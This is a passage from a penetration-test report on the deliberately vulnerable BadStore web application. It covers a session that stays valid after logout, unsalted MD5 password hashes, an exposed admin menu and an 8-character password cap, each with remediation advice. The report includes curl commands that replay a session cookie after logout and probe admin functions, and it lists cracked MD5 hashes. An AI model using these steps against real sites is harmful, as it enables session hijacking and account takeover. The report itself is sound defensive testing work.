The application fails to properly invalidate server-side sessions when users logout. After calling the logout endpoint, the SSOid session cookie remains valid and continues to provide authenticated access to the user's account and administrative functions.

**Vulnerable Endpoint:**
- GET /cgi-bin/badstore.cgi?action=logout

**Exploitation Steps:**

1. **Login and capture session cookie:**
   ```
   curl -X POST 'http://badstore/cgi-bin/badstore.cgi?action=login' \n     -d 'email=exploittest@example.com' \     -d 'passwd=Test1234' \n     -i
   ```
   Response: Set-Cookie: SSOid=ZXhwbG9pdHRlc3RAZXhhbXBsZS5jb206...

2. **Verify session works (access myaccount):**
   ```
   curl 'http://badstore/cgi-bin/badstore.cgi?action=myaccount' \n     -H 'Cookie: SSOid=ZXhwbG9pdHRlc3RAZXhhbXBsZS5jb206...'
   ```
   Result: Welcome, ExploitTest (authenticated)

3. **Call logout endpoint:**
   ```
   curl 'http://badstore/cgi-bin/badstore.cgi?action=logout' \n     -H 'Cookie: SSOid=ZXhwbG9pdHRlc3RAZXhhbXBsZS5jb206...'
   ```
   Result: Logout page displayed

4. **Verify session STILL WORKS after logout:**
   ```
   curl 'http://badstore/cgi-bin/badstore.cgi?action=myaccount' \n     -H 'Cookie: SSOid=ZXhwbG9pdHRlc3RAZXhhbXBsZS5jb206...'
   ```
   Result: Welcome, ExploitTest (STILL authenticated!)

**Root Cause:**
- Logout function only clears client-side cookie state
- No server-side session invalidation
- No session expiry mechanism
- Sessions are persistent until browser closes

**Impact:**
- Session fixation attacks possible
- Stolen cookies remain valid indefinitely
- Users cannot effectively logout on shared computers
- Attackers maintain access after user logout
- Compliance violations (PCI-DSS, GDPR session management requirements)

**Remediation:**
1. Implement server-side session storage
2. Mark sessions as invalid in database on logout
3. Implement session timeout mechanism
4. Regenerate session ID after login (prevent fixation)
5. Implement session binding to IP/user-agent
6. Add logout timestamp tracking
7. Check session validity on every request

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**


## Finding

### MD5 Password Hashing Without Salt

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{CC0000}{\textbf{High}} |
| **CVSS Base Score**  | **7.5** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=register, http://badstore:80/cgi-bin/badstore.cgi?action=login |
| **Status**           | open |

**Description**

The application uses unsalted MD5 hashing for password storage, which is cryptographically broken and considered insecure. MD5 is vulnerable to rainbow table attacks, collision attacks, and can be cracked at billions of attempts per second on modern hardware.

**Evidence from User Database:**

1. **Password hashes are 32-character MD5:**
   - 5f4dcc3b5aa765d61d8327deb882cf99
   - d41d8cd98f00b204e9800998ecf8427e
   - 098f6bcd4621d373cade4e832627b4f6

2. **Hashes are easily cracked:**
   ```
   5f4dcc3b5aa765d61d8327deb882cf99 = 'password'
   d41d8cd98f00b204e9800998ecf8427e = '' (empty)
   098f6bcd4621d373cade4e832627b4f6 = 'test'
   ```

3. **Password hash appears in session cookie:**
   Cookie: SSOid=email:MD5_HASH:fullname:role
   This exposes password hashes to any XSS vulnerability

**Technical Details:**

- **Hash Algorithm:** MD5 (Message Digest 5)
- **Salt:** None (unsalted)
- **Iterations:** 1 (single pass)
- **Hash Length:** 128 bits (32 hex characters)

**Attack Scenarios:**

1. **Rainbow Table Attack:**
   - Pre-computed tables for MD5 exist for all common passwords
   - Instant cracking of most passwords

2. **Brute Force Attack:**
   - Modern GPU can test billions of MD5 hashes per second
   - All 8-character passwords can be cracked in minutes

3. **Cookie Theft + Hash Cracking:**
   - XSS steals SSOid cookie containing MD5 hash
   - Attacker cracks hash offline
   - Attacker has plaintext password for reuse attacks

**Real User Passwords Extracted:**
- Multiple users using 'password'
- Empty passwords allowed
- Common dictionary words

**Remediation:**
1. Migrate to bcrypt, Argon2, or PBKDF2 immediately
2. Implement proper salting (unique per user)
3. Use high iteration counts (100,000+)
4. Remove password hashes from cookies
5. Force password reset for all users after migration
6. Implement password strength requirements
7. Check against HaveIBeenPwned API for breached passwords

**References:**
- CWE-327: Use of a Broken or Risky Cryptographic Algorithm
- OWASP: Password Storage Cheat Sheet
- NIST SP 800-63B: Digital Identity Guidelines

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- Complete user database dump showing all user credentials stored as unsalted MD5 hashes including admin accounts (admin@badstore.net, ryan@badstore.net, testadmin@test.com): [images/finding-0e26f51b-b5ab-4ef2-9245-fc0cc6b43612-9-full-user-database-extracted.html](images/finding-0e26f51b-b5ab-4ef2-9245-fc0cc6b43612-9-full-user-database-extracted.html)

## Finding

### Broken Function Level Authorization - Admin Panel Accessible Without Authentication

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{E67E22}{\textbf{Medium}} |
| **CVSS Base Score**  | **5.3** ([CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=admin |
| **Status**           | open |

**Description**

The admin panel at /cgi-bin/badstore.cgi?action=admin is accessible without any authentication. While the admin functions themselves require proper authorization (role=A in cookie), the admin interface and all available functions (View Sales Reports, Reset User Password, Add User, Delete User, Show Current Users, Troubleshooting, Backup Databases) are exposed to unauthenticated users.

Reproduction Steps:
1. Access admin panel without authentication:
   curl -X GET 'http://badstore/cgi-bin/badstore.cgi?action=admin'

2. Observe the Secret Administration Menu is displayed without login

3. Attempt to execute admin functions without auth (blocked, but reveals function names):
   curl -X POST 'http://badstore/cgi-bin/badstore.cgi?action=adminportal' \n     -d 'admin=Show+Current+Users'

4. Response reveals: 'Error - {Unregistered User} is not an Admin!'

Impact:
- Information disclosure of admin functionality
- Reveals existence and names of administrative functions
- Attack surface enumeration for further attacks
- While functions are blocked, the exposed interface reveals application internals

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**

- Admin panel accessible without authentication showing Secret Administration Menu to unregistered users


## Finding

### Weak Password Policy - 8 Character Maximum

|                      |                                                              |
| -------------------- | ------------------------------------------------------------ |
| **Severity**      | \textcolor[HTML]{E67E22}{\textbf{Medium}} |
| **CVSS Base Score**  | **5.3** ([CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:N/UI:N/S:U/C:L/I:N/A:N)) |
| **Assets**           | http://badstore:80/cgi-bin/badstore.cgi?action=register, http://badstore:80/cgi-bin/badstore.cgi?action=loginregister |
| **Status**           | open |

**Description**

The application enforces an extremely weak password policy with a maximum length of only 8 characters. This is enforced at the HTML level (maxlength="8") and likely at the database level, preventing users from creating strong, secure passwords.

**Affected Endpoints:**
- /cgi-bin/badstore.cgi?action=register
- /cgi-bin/badstore.cgi?action=login
- /cgi-bin/badstore.cgi?action=moduser

**Evidence:**

1. **HTML source shows maxlength=8:**
   ```html
   <input type="password" name="passwd" size="8" maxlength="8" />
   ```

2. **Registration accepts maximum 8 characters:**
   ```
   curl -X POST 'http://badstore/cgi-bin/badstore.cgi?action=register' \n     -d 'fullname=TestUser' \n     -d 'email=test@example.com' \n     -d 'passwd=12345678' \n     -d 'pwdhint=green'
   ```
   Result: Registration successful with 8-character password

3. **Password longer than 8 characters is truncated/rejected:**
   Attempting to use 'password123' (11 chars) results in only first 8 being used

**Security Implications:**
- Maximum 8 characters severely limits password entropy
- Makes passwords vulnerable to brute force attacks
- NIST SP 800-63B recommends MINIMUM 8 characters, not maximum
- Prevents use of passphrases and strong passwords
- Violates security best practices (OWASP, NIST)

**Passwords Found in Database (all ≤8 chars):**
- 5f4dcc3b5aa765d61d8327deb882cf99 = 'password'
- 098f6bcd4621d373cade4e832627b4f6 = 'test'
- d41d8cd98f00b204e9800998ecf8427e = '' (empty)

**Remediation:**
1. Remove maximum length restriction entirely
2. Set minimum length to 12+ characters (NIST recommends)
3. Allow passphrases up to 64+ characters
4. Implement password complexity requirements
5. Check against known breached password databases
6. Implement account lockout after failed attempts
7. Never store passwords in reversible format

**Proof of Concept**

Not provided

**Remediation**

Not provided

**Evidence**


\newpage

# Appendix A - Lists, Scripts and Raw Data


\newpage

# Appendix B - List of Abbreviations

+----------------+---------------------------------------------+
| Abbreviation   | Description                                 |
+================+=============================================+
| API            | Application Programming Interface           |
+----------------+---------------------------------------------+
| CAPTCHA        | Completely Automated Public Turing test to  |
|                | tell Computers and Humans Apart             |
+----------------+---------------------------------------------+
| CVSS           | Common Vulnerability Scoring System         |
+----------------+---------------------------------------------+
| FTP            | File Transfer Protocol                      |
+----------------+---------------------------------------------+
| IDOR           | Insecure Direct Object Reference            |
+----------------+---------------------------------------------+
| MD5            | Message-Digest Algorithm 5                  |
+----------------+---------------------------------------------+
| OAuth          | Open Authorization                          |
+----------------+---------------------------------------------+
| ORM            | Object-Relational Mapping                   |
+----------------+---------------------------------------------+
| OWASP          | Open Web Application Security Project       |
+----------------+---------------------------------------------+
| PII            | Personally Identifiable Information         |
+----------------+---------------------------------------------+
| SQL            | Structured Query Language                   |
+----------------+---------------------------------------------+
| TOTP           | Time-based One-Time Password                |
+----------------+---------------------------------------------+
| URI            | Uniform Resource Identifier                 |
+----------------+---------------------------------------------+
| WAF            | Web Application Firewall                    |
+----------------+---------------------------------------------+
| XSS            | Cross-Site Scripting                        |

+----------------+---------------------------------------------+
